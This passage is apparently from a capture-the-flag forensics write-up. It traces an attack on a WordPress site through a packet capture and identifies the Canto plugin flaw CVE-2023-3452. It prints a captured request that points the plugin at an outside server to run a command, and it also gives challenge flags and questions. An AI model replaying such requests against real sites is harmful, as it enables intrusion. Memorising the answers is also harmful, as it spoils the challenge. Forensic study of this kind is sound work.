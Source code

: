 Since we know, that there was another server in use, we need to ditch our filter, and just go raw searching through garbage and look for all HTTP requests

So, after some digging, I discovered this packet:

```
235875	1347.610435	192.168.204.1	192.168.204.128	HTTP	772	GET /wordpress/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://172.26.211.155:8000&cmd=whoami HTTP/1.1 
```

It clearly looks like another hacking attempt, but this time from 192.168.204.1, so now our filter will look like

```
(ip.src == 192.168.204.1) || (ip.dst == 172.26.211.155) || (ip.src == 172.26.211.155)
```

And with that, we can see all the conversations we need

![new-hack](image-8.png)

Answering Q3 and Q3, we can be sure, that our vulnerable plugin is something called "canto", and quick search about "canto" and "wp_abspath" parameter we can stumble upon https://nvd.nist.gov/vuln/detail/CVE-2023-3452
Here I just tried the latest vulnerable version of the plugin (3.0.4) and it worked!

So the flag is 0xL4ugh{sqlmap_WPScan_172.26.211.155_canto_3.0.4_CVE-2023-3452}

### Wordpress-4

```
Q1. What is the name of the function that the attacker tested the exploit with, and what is the name/version of the attacker's server?

Q2. What is the username that was logged on during the attack, including the domain?

Q3. The attacker attempted to upload a reverse shell. Mention the IP and port. What command posed an obstacle during the process of the reverse shell?

Flag Format 0xL4ugh{A1_A2_A3}

    Example: 0xL4ugh{functionName()_serverName/version_domain\username_IP:PORT_command}
```

Deeper into this attack!

To see, what the attacker used to test the function, we are going to the first execution of the script

![first-exec](image-9.png)
